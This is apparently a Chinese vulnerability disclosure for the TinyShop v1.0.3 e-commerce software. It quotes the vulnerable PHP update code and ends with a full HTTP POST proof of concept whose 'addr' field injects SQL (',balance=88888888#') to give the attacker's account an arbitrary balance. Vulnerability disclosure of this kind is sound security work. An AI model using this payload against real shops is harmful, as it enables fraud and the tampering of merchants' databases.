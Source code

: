

- [TinyShop sql注入#3可无限充值 ---- 2014-07-18](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-068912)
- [Tinyshop刷钱漏洞 ---- 2014-09-03](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-074894)
- [Tinyshop继续刷钱#2 ---- 2014-09-09](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-075063)


#### 漏洞复现:

- TinyShop v1.0.3 ---- 2014-08-08更新


#### 详细说明

有漏洞的代码:
```php
/protected/controllers/ucenter.php:

public function info_save()
    {
        $name = Filter::sql(Req::args("name"));
        $id = $this->user['id'];
        $this->model->table("user")->data(array("name"=>$name))->where("id=$id")->update();
        $this->model->table("customer")->where("user_id=$id")->update();
        $obj = $this->model->table("user as us")->join("left join customer as cu on us.id = cu.user_id")->fields("us.*,cu.group_id,cu.login_time")->where("us.id=$id")->find();
                    $this->safebox->set('user',$obj,$this->cookie_time);
        $this->redirect("info");
    }


framework/web/model/model_class.php
public function update()


framework/lib/util/request_class.php
public static function post()

```

如果调用updata()时没有传递 data数组。他会从post传递过来的数据 赋值于set 带入sql语句 。
#1 无限充值
我们 注册用户后 来到资料修改处
抓包 ，在原有的基础上 加上'balance=888888888

POC:
```
POST /tinyshop_v1.0.3/index.php?con=ucenter&act=info_save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/tinyshop_v1.0.3/index.php?con=ucenter&act=info
Cookie: UM_distinctid=15f06d4d6bf29f-019e498e979b6c-11327a40-100200-15f06d4d6c0314; CNZZDATA1670348=cnzz_eid%3D458061390-1507643362-http%253A%252F%252Flocalhost%252F%26ntime%3D1507643362; lMMh_2132_saltkey=ZaPZbRXa; lMMh_2132_lastvisit=1508386116; lMMh_2132_ulastactivity=384fsjvD2LB5yq8yuXKV13L%2BbE%2BKFABy5F%2BGxGoXJcJrtf18RbPn; lMMh_2132_lastcheckfeed=2%7C1508389735; lMMh_2132_nofavfid=1; lMMh_2132_home_readfeed=1508391201; PHPSESSID=bfc74ej00cen08ejmh9cagep60; safecode=1; Tiny_autologin=87de0112b6NTIxMDA4OTM0MGBmNzUwPDAxPDRjOWdlNDkzajJkZWY
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

name=test%40example.com&real_name=%E5%93%87%E5%93%88%E5%93%88&sex=1&birthday=2017-10-09&mobile=18888888888&phone=18888888888&province=0&city=0&county=0&addr=aaaaaaaaaa',balance=88888888#
```
![](images/1.jpg)
![](images/2.jpg)
